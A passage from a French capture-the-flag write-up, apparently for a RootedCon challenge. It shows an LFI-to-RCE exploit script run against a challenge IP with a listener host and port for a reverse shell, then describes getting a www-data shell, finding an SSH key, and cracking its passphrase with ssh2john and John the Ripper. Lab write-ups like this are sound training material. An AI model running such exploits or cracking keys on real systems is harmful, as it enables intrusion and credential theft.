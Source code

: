 ```
https://github.com/takabaya-shi/LFI2RCE ;
https://github.com/roughiz/lfito_rce
```

![Modification de l'exploit](/medias/writeups/rootedcon-by-advens/image-12.png)

```bash
python lfito_rce.py --payload 1 -l 'http://164.90.211.116:8000/marvel-admin.php' --lhost remoteserver --lport 1234 -i 'http://164.90.211.116:8000/phpinfo.php' -t 1
```

![Exploit](/medias/writeups/rootedcon-by-advens/image-13.png)

Pour le débug, j'utilise un proxy Burp pour l'ensemble des requêtes afin de voir l'exécution pas à pas.

![Mise en évidence du succès de l'exploitation.](/medias/writeups/rootedcon-by-advens/image-14.png)

Une fois l'exploit passé, j'obtiens un shell.

![Shell obtenu](/medias/writeups/rootedcon-by-advens/image-27.png)

Je dispose des droits de l'utilisateur "www-data"

![Privilèges](/medias/writeups/rootedcon-by-advens/image-28.png)

Le flag de cette partie peut être obtenu dans le fichier functions.php

![Obtention du second flag](/medias/writeups/rootedcon-by-advens/image-32.png)

## Privesc

À partir du shell obtenu, je peux me balader sur le système. Je découvre alors un fichier clef ssh.

![Découverte du fichier clef ssh](/medias/writeups/rootedcon-by-advens/image-29.png)

![Clef ssh](/medias/writeups/rootedcon-by-advens/image-30.png)

Ainsi qu'un message dans /tmp/notes.txt

![Message](/medias/writeups/rootedcon-by-advens/image-31.png)

Je comprends alors que la clef ssh appartient à l'utilisateur "drstrange" et qu'il s'agit de la prochaine étape du challenge.

Cette clef est protégée par une passphrase, pour l'obtenir, il existe un script "ssh2john.py" qui permet de convertir la clef vers un format "exploitable" par John the ripper.

![Utilisation de johntheripper](/medias/writeups/rootedcon-by-advens/image-15.png)

Dans les versions présentes dans les dépôts des différentes distributions, john est incapable d'attaquer la clef proposée. Il faut utiliser la version présente sur le [github du projet](https://github.com/openwall/john) (je vous passe l'étape du ./configure && make )
